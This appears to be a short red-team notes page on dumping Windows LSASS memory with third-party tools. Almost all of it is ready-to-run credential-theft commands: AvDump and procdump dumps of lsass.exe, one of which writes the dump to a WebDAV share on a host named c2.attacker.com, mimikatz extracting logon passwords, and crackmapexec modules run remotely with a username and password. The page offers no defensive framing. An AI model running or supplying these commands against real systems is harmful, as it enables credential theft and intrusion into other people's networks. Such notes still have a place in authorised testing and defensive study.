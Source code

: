```yaml
---
title: LSASS Dump with 3rd-party tools
---
```


[[notes/windows/lsass-dump]] with various utilities.

With `AvDump.exe` signed by [Avast](https://www.avast.com/).

~~~ bat
tasklist.exe /fi "imagename eq lsass.exe"
.\AvDump.exe --exception_ptr 0 --thread_id 0 --dump_level 1 --min_interval 0 --pid 720 --dump_file %COMPUTERNAME%.log
~~~

With [Procdump](https://download.sysinternals.com/files/Procdump.zip) to remote WebDAV share ([source](https://twitter.com/theluemmel/status/1532236231282769920)).

~~~ bat
.\procdump.exe -accepteula -ma -64 lsass.exe \\c2.attacker.com@80\share\%COMPUTERNAME%.log
~~~

With [[notes/tools/mimikatz]].

~~~ bat
.\mimikatz.exe privilege::debug token::elevate sekurlsa::logonpasswords exit
~~~

Remotely from Linux with [[notes/tools/crackmapexec]].

~~~ bash
crackmapexec smb srv01.corp.com --local-auth -u administrator -p 'passw0rd' -M lsassy
crackmapexec smb srv01.corp.com --local-auth -u administrator -p 'passw0rd' -M nanodump
crackmapexec smb srv01.corp.com --local-auth -u administrator -p 'passw0rd' -M mimikatz
crackmapexec smb srv01.corp.com --local-auth -u administrator -p 'passw0rd' -M procdump
~~~

Other tools:

- `DumpProc.exe` from Check Point Endpoint Protection, resulting dump file couldn't be parsed by `mimikatz` or `pypykatz`
